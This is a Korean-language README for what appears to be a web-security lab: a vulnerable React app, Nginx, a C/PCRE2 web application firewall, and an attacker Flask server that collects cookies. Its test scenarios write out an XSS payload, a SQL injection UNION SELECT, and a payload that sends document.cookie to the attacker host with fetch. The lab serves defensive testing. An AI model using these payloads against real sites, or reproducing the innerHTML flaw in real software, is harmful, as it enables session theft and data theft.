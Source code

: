 # System_security_report

# 실습 컨테이너 구성 안내

```
┌──────────┐        ┌────────────┐        ┌────────────┐
│  Client  │ ──▶   │  WAF(8080) │ ──▶   │  Nginx      │
└──────────┘        │  ▸ PCRE2   │        │  ▸ 정적 파일│
                    │  ▸ libevent│        │  ▸ 리버스    │
                    └────────────┘        │    프록시   │
                                           └────┬───────┘
                                                ▼
                                     ┌────────────────────┐
                                     │ Frontend(3000)     │
                                     │  ▸ React dev server│
                                     └────────────────────┘

Attacker(4000)은 별도 네트워크 경로로 쿠키를 수집한다.

## 1. attacker_webserver (4000/tcp)
- **기능**: `steal.js` 제공 및 `/collect` 엔드포인트로 피해자 쿠키 수집
- **스택**: Python 3.11 + Flask
- **경로**: `attacker_webserver/`
- **주요 파일**
  | 파일 | 설명 |
  |------|------|
  | `app.py` | `/steal.js`, `/collect` 라우트 구현 |
  | `requirements.txt` | flask 의존성 명시 |
  | `Dockerfile` | 슬림 이미지로 빌드 |

## 2. frontend (3000/tcp)
- **기능**: 취약 React 애플리케이션 (쿼리 파라미터를 그대로 innerHTML 로 렌더링)
- **스택**: Node 18 + CRA(dev server)
- **경로**: `frontend/`
- **특징**: HMR 활성화, 빌드 산출물은 `frontend/project/build`

## 3. nginx (80/tcp)
- **기능**: 정적 빌드 파일 제공 및 백엔드(API) 리버스 프록시 예시 포함
- **경로**: `nginx/`
- **주요 파일**
  | 파일 | 설명 |
  |------|------|
  | `nginx.conf` | 메인 설정 (worker, include) |
  | `conf.d/site.conf` | `location /` 정적 서빙 등 |

## 4. waf_server (8080/tcp)
- **기능**: 리버스 프록시 + Web Application Firewall
- **스택**: C, libevent, PCRE2
- **경로**: `waf_server/`
- **주요 특징**
  1. 요청 헤더·쿼리스트링을 실시간 스트리밍 검사
  2. 다중 정규식(PATTERNS[]) 컴파일 → 순차 매칭
  3. 1회 URL-Decode 후 재검사로 `%3C` 우회 방어
  4. 매칭 시 403 응답 후 세션 종료

## 실행 방법
```bash
docker compose up -d   # 모든 서비스 기동
docker compose logs -f waf | cat  # WAF 차단 로그 실시간 확인
```

## 테스트 시나리오
1. XSS
   ```
   http://localhost:8080/?q=%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E
   ```
2. SQLi
   ```
   http://localhost:8080/product?id=10%20UNION%20SELECT%20user,pass%20FROM%20users--
   ```
3. 쿠키 탈취
   ```
   http://localhost:8080/?q=%3Cimg%20src%3Dx%20onerror%3D"fetch('http://attacker:4000/collect?c='+document.cookie)"%3E
   ```

각 요청이 403 Forbidden 으로 차단되는지, attacker 로그에 쿠키가 찍히는지 확인한다.
